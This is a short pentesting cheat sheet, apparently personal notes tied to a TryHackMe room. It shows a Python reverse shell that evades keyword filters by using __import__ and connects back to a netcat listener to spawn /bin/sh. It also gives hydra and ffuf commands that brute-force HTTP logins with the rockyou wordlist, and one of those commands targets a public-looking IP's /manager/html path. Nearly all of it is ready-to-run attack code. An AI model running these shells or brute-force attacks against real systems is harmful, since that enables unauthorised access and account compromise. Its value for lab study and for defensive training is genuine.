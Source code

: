 ### Bypassing some python restriction to get reverse shell

In this room: [https://tryhackme.com/room/pythonplayground](https://tryhackme.com/room/pythonplayground) we had to bypass some python keywords restrction in order to get reverse shell.

Walkthrough --> [https://github.com/nonickid/Python-Playground-write-up](https://github.com/nonickid/Python-Playground-write-up)

```python
# setup a nc listener.
nc -nvlp 7345

# use the python code.
o = __import__('os')
s = __import__('socket')
p = __import__('subprocess')

k = s.socket(s.AF_INET,s.SOCK_STREAM)
k.connect(("10.18.88.214",7345))
o.dup2(k.fileno(),0)
o.dup2(k.fileno(),1)
o.dup2(k.fileno(),2)
c = p.call(["/bin/sh","-i"]);

# we got shell.
```

### Bruteforcing Http Login Forms with hydra

{% code overflow="wrap" lineNumbers="true" %}
```bash
# basic authentication
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 10.10.103.251 http-get /inferno -t 64
# with custom ports
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 164.100.83.45 http-get /manager/html -s 8080 -t 64

# template cmd..
hydra -l <username> -P <wordlist> 10.10.241.210 http-post-form "/<path_to_go>:username=^USER^&password=^PASS^:F=incorrect" -V

# example.
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.241.210 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect." -t 10
```
{% endcode %}

### Bruteforcing Http Login using ffuf

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -w /usr/share/wordlists/rockyou.txt  -d "email=adminaccount@itsupport.thm&password=FUZZ" -u http://10.10.8.153/login -fw 475 -H "Content-Type: application/x-www-form-urlencoded"
```
{% endcode %}
